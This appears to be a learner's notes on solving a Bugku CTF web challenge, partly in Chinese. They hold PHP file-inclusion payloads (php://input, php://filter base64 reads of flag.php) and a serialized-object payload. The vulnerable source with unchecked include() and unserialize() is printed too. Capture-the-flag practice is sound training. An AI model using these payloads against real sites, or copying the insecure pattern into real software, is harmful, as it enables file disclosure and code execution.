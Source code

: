 		http://120.24.86.145:8006/test1/?txt=php://input&file=php://filter/read=convert.base64-encode/resource=flag.php&password=
		不能现在就给你flag

		http://120.24.86.145:8006/test1/?txt=php://input&file=php://filter/read=convert.base64-encode/resource=index.php&password=
		welcome to the bugkuctf
	```PD9waHAgIA0KJHR4dCA9ICRfR0VUWyJ0eHQiXTsgIA0KJGZpbGUgPSAkX0dFVFsiZmlsZSJdOyAgDQokcGFzc3dvcmQgPSAkX0dFVFsicGFzc3dvcmQiXTsgIA0KICANCmlmKGlzc2V0KCR0eHQpJiYoZmlsZV9nZXRfY29udGVudHMoJHR4dCwncicpPT09IndlbGNvbWUgdG8gdGhlIGJ1Z2t1Y3RmIikpeyAgDQogICAgZWNobyAiaGVsbG8gZnJpZW5kITxicj4iOyAgDQogICAgaWYocHJlZ19tYXRjaCgiL2ZsYWcvIiwkZmlsZSkpeyANCgkJZWNobyAi5LiN6IO9546w5Zyo5bCx57uZ5L2gZmxhZ```

		<?php  
			$txt = $_GET["txt"];  
			$file = $_GET["file"];  
			$password = $_GET["password"];  
			  
			if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){  
			    echo "hello friend!<br>";  
			    if(preg_match("/flag/",$file)){ 
					echo "不能现在就给你flag哦";
			        exit();  
			    }else{  
			        include($file);   
			        $password = unserialize($password);  
			        echo $password;  
			    }  
			}else{  
			    echo "you are not the number of bugku ! ";  
			}  
			  
			?>  
			  
			<!--  
			$user = $_GET["txt"];  
			$file = $_GET["file"];  
			$pass = $_GET["password"];  
			  
			if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){  
			    echo "hello admin!<br>";  
			    include($file); //hint.php  
			}else{  
			    echo "you are not admin ! ";  
			}  
			 -->  

			php序列化与反序列化

			php文件包含
				https://www.waitalone.cn/php-file-include.html
				php://filter仅可以用一次，php://input可多次重复使用
			file_get_contents() 函数把整个文件读入一个字符串中。
			http://120.24.86.145:8006/test1/?txt=php://input&file=hint.php&password=O:4:"Flag":1:{s:4:"file";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}
			welcome to the bugkuctf
